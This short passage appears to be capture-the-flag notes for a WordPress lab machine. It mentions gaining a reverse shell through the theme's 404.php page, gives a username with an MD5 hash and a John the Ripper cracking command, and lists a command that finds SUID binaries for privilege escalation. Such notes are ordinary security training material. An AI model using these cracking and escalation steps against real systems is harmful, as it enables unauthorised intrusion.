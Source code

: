 
### access to wp-admin/theme for reverse shell.
`http://10.10.242.242/wp-admin/theme/Twenty%20Fifteen.404.php`

robot:c3fcd3d76192e4007dfb496cca67e13b (raw-md5)
`john hash --wordlist=/usr/share/wordlists/rockyou.txt -format=raw-md5`

### print out any executables which have SUID bit set.
`find / -perm -u=s -type f 2>/dev/null`
